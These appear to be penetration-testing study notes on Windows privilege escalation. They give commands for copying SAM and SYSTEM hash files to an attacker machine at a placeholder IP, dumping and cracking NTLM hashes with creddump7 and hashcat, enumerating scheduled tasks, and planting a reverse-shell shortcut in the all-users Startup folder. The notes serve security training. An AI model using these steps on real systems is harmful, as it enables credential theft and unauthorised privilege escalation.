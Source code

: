 ### SAM (Security Account Manager)
* Windows stores password hashes in the Security Account Manager (SAM)
* The hashes are encrypted with a key which can be found in a file named SYSTEM
* If you can read the SAM and the SYSTEM file you can extract the hashes.
* The SAM and SYSTEM files are located in the C:\Windows\System32\config directory.
* The files are locked while Windows is running.
* Backups may exist in the C:\Windows\Repair or C:\Windows\System32\config\RegBack directories.

#### winPEAS
1. Run winPEAS to search for creds in files
`.\winPEASany.exe quiet cmd searchfast filesinfo`
2. Copy SAM and SYSTEM backup files to kali
`copy C:\Windows\Repair\SAM \\192.168.X.X\files
copy C:\Windows\Repair\SYSTEM \\192.168.X.X\files`
3. You can use SAM dump or PwDump to dump files.
4. The current pwdump available on Kali is out of date so we will need to grab the newest version
`git clone https://github.com/CiscoCXSecurity/creddump7.git`
* Must be run with python 2 (kalis default python)
5. Run creddump
` python2 pwdump.py SYSTEM SAM`
6. Crack hash with hashcat (or john)
`hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt`

## Scheduled Tasks
* Administrators can create tasks that are run as other users including SYSTEM
* Unfortunately, as a low privileged user there is no easy method to enumerate tasks for other users
* You can however use some commands to list all the tasks your user can see:
`schtasks /query /fo LIST /v`
Or Powershell:
`Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State`
* Often we have to rely on other clues, such as finding a script or log file indicating a task is being run.

## Insecure GUI Apps
* On some older version of windows, users can be granted the ability to run specific apps with admin privileges
* Often numerous ways to run windows applications using built-in functionality (often called escapes, i.e. Citirix escapes)
`tasklist /V | findstr mspaint.exe`

## Startup Apps
* Each user can define apps that start when they login by placing shortcuts to them in a specific directory
* Windows has a startup directory for applications that should start for all users
`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`
* If we can create files in this directory we can spawn a reverse shell when an admin logs in
* We can use accesscheck to check our permissions on this directory
`.\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"`
* Files in this directory *must* be shortcuts. You can use the CreateShortcut.vbs script to make a shortcut in this directory. May need modification.
